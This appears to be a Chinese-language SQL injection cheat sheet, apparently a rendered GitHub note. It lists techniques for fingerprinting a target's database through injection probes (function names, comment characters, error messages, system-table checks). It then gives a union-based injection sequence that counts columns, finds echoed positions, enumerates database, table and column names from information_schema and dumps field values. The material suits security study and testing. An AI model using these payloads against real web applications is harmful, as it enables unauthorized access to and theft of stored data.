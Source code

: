 ## 數據庫判斷

常见的数据库Oracle、MySQL、SQL Server、Access、MSsql、mongodb等

关系型数据库：由二维表及其之间的联系组成的一个数据组织。如：Oracle、DB2、MySql

1.是否可以使用特定的函数来判断，该数据库特有的

len()函数：mssql、mysql、db2

length()函数:Oracle、informix

substring：mssql

substr：oracle

version()>1 返回与@@version>1 相同页面时，则可能是mysql。如果出现提示version()错误时，则可能是mssql。

2.是否可以使用辅助的符号来判断，如注释符号、多语句查询符等等

/*  mysql特有注释符，返回错误说明不是mysql

--  是Oracle和MSSQL支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符

;   是子句查询标识符，Oracle不支持多行查询，因此如果返回错误，则说明很可能是Oracle数据库。

;-- 在注入点后加分号、斜杠、斜杠，返回正常是mssql，返回错误是ACCESS

3.是否可以编码查询

4.是否显可以利用错信息

错误提示Microsoft JET Database Engine 错误 '80040e14'，

JET是ACCESS数据库

ODBC是MSSQL数据库


5.是否存在数据库某些特性辅助判断

and exists (select count(*) from sysobjects)    返回正常是mssql

and exists (select count(*) from msysobjects)   两条，和上一条返回都不正常是ACCESS

如果是字符型，参数后加 ' 最后加 ;--

## 注入方法

##### union注入

```
order by n #确定列数
union select 1，2，3 #进行回显，查看可见位
union select 1,database(),3 #爆破库名
union select 1,table_name,3 from information_schema.tables where table_schema='库名' limit 0,1;#进行表名爆库 limit 0，1显示第一个
union select 1,column_name,3 from information_schema.cloumns where table_schema='库名' and table_name='表名'#进行字段名查询
union select 1,字段名,3 from 库名.表名#获取数据
```
